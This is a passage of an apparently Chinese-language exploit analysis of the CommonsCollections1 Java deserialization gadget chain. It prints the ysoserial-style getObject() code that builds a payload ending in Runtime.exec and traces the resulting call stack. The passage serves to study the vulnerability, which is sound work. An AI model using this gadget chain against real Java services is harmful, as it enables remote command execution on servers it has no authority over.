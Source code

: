 ```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

从`CommonsCollections1#getObject()`中可以知道，返回的是 `AnnotationInvocationHandler`类型，即`payload`为`AnnotationInvocationHandler`对象序列化后的
故栈回溯到`AnnotationInvocationHandler#readObject()`方法即可。

根据上图的函数调用堆栈，结合上一篇分析文章中提到的`Java动态代理`技术，可以比较容易的得出`CommonsCollections1`的利用链，如下：

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

又因为`ChainedTransformer#iTransformers`是一个长度为`5`的数组，而且在上面的函数堆栈中，当`iTransformers[i]#transform()`最后一次被执行时，数组索引`i`为3，所以其实这里`iTransformers[i]#transform()`循环执行了四次，最后才命中`Runtime#exec()`。
